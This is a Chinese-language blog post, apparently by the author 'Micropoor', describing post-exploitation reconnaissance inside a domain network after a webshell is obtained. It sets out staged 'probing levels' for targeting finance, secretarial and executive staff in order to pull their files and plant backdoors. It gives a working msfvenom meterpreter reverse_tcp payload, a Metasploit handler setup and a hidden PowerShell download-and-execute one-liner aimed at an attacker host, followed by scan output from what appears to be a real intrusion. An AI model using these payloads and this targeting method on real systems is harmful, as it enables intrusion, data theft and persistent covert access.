专注APT攻击与防御
https://micropoor.blogspot.com/

>   目标资产信息搜集的程度，决定渗透过程的复杂程度。

>   目标主机信息搜集的深度，决定后渗透权限持续把控。

>   渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

>   ----Micropoor

文章将连载，从几方面论证，**渗透的本质是信息搜集**。

一次完整的网络渗透，不仅仅是与目标管理人员的权限争夺，一次完整的网络渗透，它分为两大块，**技术业务**与**信息分析业务**。

而**技术业务要辅助并且要为信息分析业务提供强大的支撑与保证**。同时**信息分析业务要为技术业务提供关键的目标信息分析逻辑关系与渗透方向**。

案例如下：(非root/administrator下主动信息搜集)（有马赛克）

在得到一个webshell时，非root/administrator情况下对目标信息搜集至关重要，它会影响后期的渗透是否顺利，以及渗透方向。

目标主机分配了2个内网IP，分别为10.0.0.X与192.168.100.X


得知部分服务软件，以及杀毒软件 NOD32，一般内网中为杀毒为集体一致。



搜集补丁更新频率，以及系统状况


搜集安装软件以及版本，路径等。



域中用户如下。目前权限为 iis apppool\xxxx


正如上面所说，技术业务需要辅助分析业务。在域组中，其中有几个组需要特别关注，在一般的大型内网渗透中，需要关注大致几个组

**（1）IT组/研发组** 他们掌握在大量的内网密码，数据库密码等。
**（2）秘书组** 他们掌握着大量的目标机构的内部传达文件，为信息分析业务提供信息，在反馈给技术业务来确定渗透方向
**（3）domain admins组** root/administrator
**（4）财务组**  他们掌握着大量的资金往来与目标企业的规划发展，并且可以通过资金，来判断出目标组织的整体架构
**（5）CXX组** ceo cto coo等，不同的目标组织名字不同，如部长，厂长，经理等。


以研发中心为例：研发中心共计4人。

**并且开始规划信息刺探等级：**

**等级1：**确定某部门具体人员数量 如研发中心4人
**等级2：**确定该部门的英文用户名的具体信息，如姓名，联系方式，邮箱，职务等。以便确定下一步攻击方向
**等级3：**分别刺探白天/夜间  内网中所存活机器并且对应IP地址
**等级4：** 对应人员的工作机内网IP，以及工作时间
**等级5：** 根据信息业务反馈，制定目标安全时间，以便拖拽指定人员文件，或登录目标机器
**等级6：** 制定目标机器后渗透与持续渗透的方式以及后门

**刺探等级1**


**刺探等级2**




在 net user /domain 后得到域中用户，但需要在**非root/administrator**权限下得到更多的信息来给信息分析业务提供数据，并确定攻击方向。

在案例中针对nod32，采用powershell payload

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx
LPORT=xx -f psh-reflection > xx.ps1
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost xxx.xxx.xxx.xxx lhost => xxx.xxx.xxx.xxx
msf exploit(handler) > set lport xxx lport => xxx
msf > run

powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/xxx.ps1');"
```
注意区分目标及系统是32位还是64位。


接下来将会用 IIS APPPOOL\\XXXX 的权限来搜集更多有趣的信息


某数据库配置 for mssql



白天测试段10.0.0.x段在线主机 for windows （部分）


**10.0.0.x 段信息刺探：**
IP 1-50 open 3389 （部分）

```
[+] 10.0.0.2: - 10.0.0.2:3389 - TCP OPEN
[+] 10.0.0.3: - 10.0.0.3:3389 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:3389 - TCP OPEN
[+] 10.0.0.7: - 10.0.0.7:3389 - TCP OPEN
[+] 10.0.0.9: - 10.0.0.9:3389 - TCP OPEN
[+] 10.0.0.12: - 10.0.0.12:3389 - TCP OPEN
[+] 10.0.0.13: - 10.0.0.13:3389 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:3389 - TCP OPEN
[+] 10.0.0.26: - 10.0.0.26:3389 - TCP OPEN
[+] 10.0.0.28: - 10.0.0.28:3389 - TCP OPEN
[+] 10.0.0.32: - 10.0.0.32:3389 - TCP OPEN
```
IP 1-255 open 22,25 （部分）

```
[+] 10.0.0.3: - 10.0.0.3:25 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:25 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:25 - TCP OPEN
[+] 10.0.0.15: - 10.0.0.15:22 - TCP OPEN
[+] 10.0.0.16: - 10.0.0.16:22 - TCP OPEN
[+] 10.0.0.17: - 10.0.0.17:22 - TCP OPEN
[+] 10.0.0.20: - 10.0.0.20:22 - TCP OPEN
[+] 10.0.0.21: - 10.0.0.21:22 - TCP OPEN
[+] 10.0.0.31: - 10.0.0.31:22 - TCP OPEN
[+] 10.0.0.38: - 10.0.0.38:22 - TCP OPEN
[+] 10.0.0.40: - 10.0.0.40:22 - TCP OPEN
[+] 10.0.0.99: - 10.0.0.99:22 - TCP OPEN
[+] 10.0.0.251: - 10.0.0.251:22 - TCP OPEN
[+] 10.0.0.254: - 10.0.0.254:22 - TCP OPEN
```
IP 1-255 smtp for version （部分）


```
msf auxiliary(smtp_version) \> run

[+] 10.0.0.3:25 - 10.0.0.3:25 SMTP 220 xxxxxxxxxxxxxxxxx MAIL Service,Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:28:44 +0800 \\x0d\\x0a
[+] 10.0.0.5:25 - 10.0.0.5:25 SMTP 220 xxxxxxxxxxxxxxxxx Microsoft ESMTP MAIL Service, Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:29:05 +0800 \\x0d\\x0a
[+] 10.0.0.14:25 - 10.0.0.14:25 SMTP 220 xxxxxxxxxxxxxxxxxt ESMTP MAIL Service, Version: 7.0.6002.18264 ready at Wed, 14 Feb 2018 18:30:32 +0800 \\x0d\\x0a
```


在iis apppool\xxxx的权限下，目前得知该目标内网分配段，安装软件，杀毒，端口，服务，补丁更新频率，管理员上线操作时间段，数据库配置信息，域用户详细信息（英文user对应的职务，姓名等），以上数据等待信息分析业务，来确定攻击方向。如财务组，如cxx组等。并且完成了**刺探等级1-4**

而在以上的信息搜集过程中，提权不在是我考虑的问题了，可以Filezilla server提权，mssqsl数据库提权，win03提权，win2000提权，win08提权，iis.x提权，内网映射提权等。而现在需要做的是如何反制被发现来制定目标业务后门，以便长期控制。

下一季的连载，将会从三方面来讲述大型内网的信息刺探，既有0day的admin权限下刺探，无提权下的guest/users权限下刺探。数据库下的权限刺探。域权限延伸到办公PC机的信息刺探。以及只有路由权限下的信息刺探。原来在渗透过程中，提权是次要的，信息刺探才是渗透的本质。
>   Micropoor
